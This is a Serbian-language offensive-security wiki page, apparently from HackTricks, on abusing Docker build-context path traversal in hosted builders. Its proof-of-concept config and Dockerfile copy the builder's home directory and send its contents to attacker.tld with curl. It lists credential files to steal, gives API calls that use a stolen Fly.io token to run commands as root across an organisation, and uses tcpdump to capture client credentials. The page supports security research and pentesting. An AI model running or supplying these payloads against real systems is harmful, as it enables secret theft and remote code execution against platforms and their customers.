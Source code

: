 # Zloupotreba Docker Build Context u Hosted Builders (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## Ukratko

Ako CI/CD platforma ili hosted builder dozvoljavaju contributorima da odrede Docker build context path i Dockerfile path, često možete postaviti context na parent directory (npr. "..") i učiniti fajlove sa hosta delom build context-a. Zatim attacker-controlled Dockerfile može da COPY i eksfiltrira tajne pronađene u home direktorijumu buildera (na primer, ~/.docker/config.json). Ukradeni registry tokens takođe mogu raditi protiv provider-ovih control-plane APIs, omogućavajući org-wide RCE.

## Površina napada

Mnoge hosted builder/registry usluge rade otprilike sledeće prilikom buildovanja image-a poslatih od strane korisnika:
- Pročitaju repo-nivo konfiguraciju koja uključuje:
  - build context path (poslat Docker daemonu)
  - Dockerfile path relativno u odnosu na taj context
- Kopiraju navedeni build context direktorijum i Dockerfile na Docker daemon
- Builduju image i pokreću ga kao hosted service

Ako platforma ne kanonizuje i ne ograničava build context, korisnik može da ga postavi na lokaciju izvan repozitorijuma (path traversal), što dovodi do toga da proizvoljni fajlovi sa hosta, koji su čitljivi build user-u, postanu deo build context-a i dostupni za COPY u Dockerfile-u.

Praktična ograničenja koja se često primećuju:
- Dockerfile mora biti unutar odabranog context path-a i njegova putanja mora biti poznata unapred.
- Build user mora imati read pristup fajlovima uključenim u context; specijalne device datoteke mogu pokvariti kopiranje.

## PoC: Path traversal via Docker build context

Primer zlonamernog server config-a koji deklariše Dockerfile unutar context-a roditeljskog direktorijuma:
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
Napomene:
- Korišćenje ".." često se preslikava na home direktorijum korisnika 'builder' (npr. /home/builder), koji obično sadrži osetljive fajlove.
- Postavite vaš Dockerfile pod imenom direktorijuma repoa (npr. repo "test" → test/Dockerfile) tako da ostane unutar proširenog roditeljskog konteksta.

## PoC: Dockerfile za unošenje i eksfiltraciju host konteksta
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
Ciljevi koji se često pronalaze u $HOME:
- ~/.docker/config.json (registry auths/tokens)
- Ostali cloud/CLI keševi i konfiguracije (npr., ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

Savet: Čak i ako postoji .dockerignore u repozitorijumu, selekcija konteksta na strani platforme i dalje određuje šta se šalje ka daemonu. Ako platforma kopira izabrani put ka daemonu pre nego što proceni vaš repozitorijum’s .dockerignore, fajlovi sa hosta i dalje mogu biti izloženi.

## Pivot u oblaku sa overprivileged tokens (primer: Fly.io Machines API)

Neke platforme izdaju jedan bearer token koji se može koristiti i za container registry i za control-plane API. Ako eksfiltrujete registry token, probajte ga protiv provider API-ja.

Primer API poziva protiv Fly.io Machines API koristeći ukradeni token iz ~/.docker/config.json:

Nabroj aplikacije u organizaciji:
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
Pokrenite komandu kao root unutar bilo koje mašine aplikacije:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
Ishod: remote code execution širom organizacije na svim hostovanim aplikacijama gde token ima dovoljne privilegije.

## Krađa tajni iz kompromitovanih hostovanih servisa

Sa exec/RCE na hostovanim serverima, možete prikupiti tajne koje su dostavili klijenti (API keys, tokens) ili izvesti prompt-injection napade. Primer: instalirajte tcpdump i snimite HTTP saobraćaj na portu 8080 kako biste izvukli dolazne kredencijale.
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
Snimljeni zahtevi često sadrže client credentials u headers, bodies, ili query params.

## References

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}

